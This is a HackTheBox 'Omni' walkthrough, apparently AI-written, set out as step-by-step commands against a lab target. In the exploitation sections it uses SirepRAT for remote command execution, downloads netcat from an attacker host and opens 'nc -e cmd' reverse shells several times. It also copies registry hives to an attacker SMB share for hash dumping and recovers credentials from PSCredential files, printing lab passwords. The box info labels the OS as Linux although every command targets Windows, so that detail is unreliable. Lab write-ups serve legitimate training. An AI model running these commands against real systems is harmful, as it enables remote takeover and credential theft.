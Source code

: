 Got it! Here's your **HTB: Omni** walkthrough with all relevant commands included and organized by phase for clarity.

---

# 🧠 HackTheBox: Omni Walkthrough
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🛰️ Recon

**Full Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.204
```

**Service Version Scan**
```bash
nmap -p 135,5985,8080,29817,29819,29820 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.204
```

---

## 🌐 Web Enumeration

**[HTTP](HTTP) on port 8080 prompts for auth:**  
> Realm: *Windows Device Portal*

Add to `/etc/hosts`:
```bash
echo "10.10.10.204 omni.htb" | sudo tee -a /etc/hosts
```

---

## 🧰 Exploitation - SYSTEM Access via Sirep

**Tool**: [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)

**Basic Command Execution**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c dir c:\ '
```

**Working Directory for Staging**
```bash
dir c:\windows\system32\spool\drivers\color /b
```

**Upload nc.exe**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c powershell Invoke-WebRequest -outfile c:\windows\system32\spool\drivers\color\nc.exe -uri http://10.10.14.6/nc64.exe'
```

**Start Listener**
```bash
rlwrap nc -lnvp 443
```

**Execute Reverse Shell**
```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args ' /c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443'
```

---

## 🪪 SYSTEM to app

**user.txt is encrypted**
```powershell
(Import-CliXml -Path C:\data\users\app\user.txt).GetNetworkCredential().Password
```

---

## 🔐 Dumping Hashes (Alternate method)

**Start SMB Server**
```bash
smbserver.py share . -smb2support -username df -password df
```

**Mount Share & Dump Registry**
```cmd
net use \\10.10.14.6\share /user:df df
reg save HKLM\sam \\10.10.14.6\share\sam
reg save HKLM\system \\10.10.14.6\share\system
reg save HKLM\security \\10.10.14.6\share\security
```

**Extract with secretsdump**
```bash
secretsdump.py -sam sam -security security -system system LOCAL
```

**Crack with Hashcat or Jupyter Notebook (Penglab)**

---

## 🧑‍💻 Shell as app via HTTP:8080 (Windows Device Portal)

**Login with creds**
```text
Username: app
Password: mesh5143
```

**Command Execution on Portal**:  
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🔑 Privesc app → administrator

**Found Cred Dump File**
```powershell
Import-CliXml -Path iot-admin.xml
```

**Get Creds**
```powershell
(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl
```

**Output:**
```text
Username : administrator
Password : _1nt3rn37ofTh1nGz
```

---

## 🧑‍🔬 Shell as Administrator

**Login to Portal with Admin Credentials**

**Reverse Shell**
```powershell
powershell -c "Invoke-WebRequest -Uri http://10.10.14.6/nc64.exe -OutFile C:\windows\system32\spool\drivers\color\nc.exe"
C:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.6 443
```

---

## 🏁 Loot Flags

**Get root.txt**
```powershell
(Import-CliXml -Path C:\data\users\administrator\root.txt).GetNetworkCredential().Password
```